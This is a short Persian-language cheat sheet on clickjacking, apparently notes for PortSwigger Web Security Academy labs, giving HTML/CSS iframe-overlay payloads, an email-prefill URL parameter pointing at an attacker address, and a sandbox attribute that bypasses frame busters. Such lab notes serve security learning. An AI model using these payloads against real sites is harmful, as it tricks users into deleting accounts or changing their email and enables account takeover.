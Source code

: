 # Clickjacking

## Exploit
- **حمله مقدماتی با حفاظت CSRF Token**
  - در کد زیر پیکسل ها را تغییر می دهیم تا متن *Click me* روی کلید *Delete Account* بیفند ، برای این کار باید ابتدا opacity را برابر 0.1 قرار دهیم و پس از بدست آوردن موقعیت درست، آن را روی 0.0001 تنظیم کنیم:
```HTML
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: $opacity;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Test me</div>
<iframe src="https://ac721fc61e66ddc6c0325ed500ca00d4.web-security-academy.net/my-account"></iframe>
```
- **پر کردن خودکار فیلدهای فرم با استفاده از URL Param**
  - برای این منظور در کد فوق تگ iframe را به شکل زیر تغییر می دهیم:
```HTML
<iframe src="https://ac721fc61e66ddc6c0325ed500ca00d4.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
- **بای پاس کردن frame buster**
  - در اینحالت اجازه iframe کردن سایت قربانی را نخواهیم داشت، برای دور زدن این محافظت attribute زیر را به تگ iframe اضافه می کنیم:
```HTML
<iframe sandbox="allow-forms" src="https://ac1f1fd41fe93c54c00a5216000e009e.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
``` 
- ی
